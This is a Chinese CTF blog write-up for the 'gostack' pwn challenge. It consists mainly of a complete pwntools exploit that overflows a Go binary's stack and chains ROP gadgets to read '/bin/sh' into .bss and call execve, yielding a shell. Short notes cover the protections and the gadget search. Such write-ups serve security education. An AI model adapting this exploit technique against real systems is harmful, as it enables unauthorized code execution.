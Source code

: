 ```yaml
---
layout: post
title: "ciscngostack"
date: 2024-6-17
tags: [pwn]
comments: true
author: gbeefee

---
```


单纯的ROP，当时所有gadget都找齐了，因为缓冲区长度，没做出来。后面看其他wp知道go语言溢出会报错给返回地址

先放完整exp：

```python

from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 # pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a # pop rsi ; ret
rax = 0x40f984 # pop rax ; ret
rdx = 0x4944ec # pop rdx ; ret
ret = 0x40201a # ret
syscall = 0x4616C9 # syscall ; ret
bss = 0x5633a0 

off = 456

# read调用
payload = b'\x00'*off + p64(0) \
        + p64(rax) + p64(0x0) \
        + p64(rdi) + p64(0) + p64(0)*5 \
        + p64(rsi) + p64(bss) \
        + p64(rdx) + p64(0x30) \
        + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
payload+= p64(rax) + p64(0x3b) \
        + p64(rdi) + p64(bss) + p64(0)*5 \
        + p64(rsi) + p64(0) \
        + p64(rdx) + p64(0) \
        + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

保护，只开了NX，根据名字大概率是栈溢出

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/01.png)

因为是用go语言编写的，ida几乎是看不到什么东西了，但是go报错会提示错误地址

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/01.png)

算一下长度

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/01.png)

然后就是获取gadget，ropper查一下，发现特别多，要的都有，就不贴了。
